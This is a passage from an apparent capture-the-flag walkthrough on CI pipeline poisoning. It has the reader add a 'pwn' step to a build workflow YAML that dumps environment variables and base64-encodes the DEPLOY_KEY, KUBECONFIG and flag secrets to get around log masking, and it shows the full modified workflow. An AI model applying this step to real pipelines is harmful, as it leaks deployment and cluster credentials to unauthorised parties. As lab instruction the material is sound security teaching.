 Now, let's modify the `build.yaml` to include following:

```bash
     - name: pwn
        run: |
          env
          echo "${{ secrets.DEPLOY_KEY }}" | base64 -w0
          echo "${{ secrets.KUBECONFIG }}" | base64 -w0
          echo “${{ secrets.CTF_FLAG}}” | base64
```

> Note: We are editing a yaml file which is space sensitive. Make sure you are using spaces and not tabs.

The final file should look something like this:

```yaml
on:
  push:
    branches:
      - main

jobs:
  build-prod-image:
    name: build-image
    runs-on: ubuntu-latest
    env:
      DEPLOY_USER: ci
      REGISTRY: 172.31.2.136:30080
      KUBE_APISERVER: 172.31.2.136:6443
      #FLAG: ${{ secrets.CTF_FLAG }}
    steps:
      - name: Install Kubectl
        uses: azure/setup-kubectl@v3

      - name: Git Checkout
        uses: https://gitea.com/actions/checkout@v3

      - name: Set up Docker Buildx
        uses: docker/setup-buildx-action@v2
        with:
          config-inline: |
            [registry."${{ env.REGISTRY }}"]
              http = true
              insecure = true

      - name: pwn
        run: |
          env
          echo "${{ secrets.DEPLOY_KEY }}" | base64 -w0
          echo "${{ secrets.KUBECONFIG }}" | base64 -w0
          echo “${{ secrets.CTF_FLAG}}” | base64

      - name: Login to Production Registry
        uses: docker/login-action@v2
        with:
          registry: ${{ env.REGISTRY }}
          username: ${{ env.DEPLOY_USER }}
          password: ${{ secrets.DEPLOY_KEY }}

      - name: Container Build
        uses: docker/build-push-action@v4
        with:
          push: true
          tags: ${{ env.REGISTRY }}/prod-image:latest

```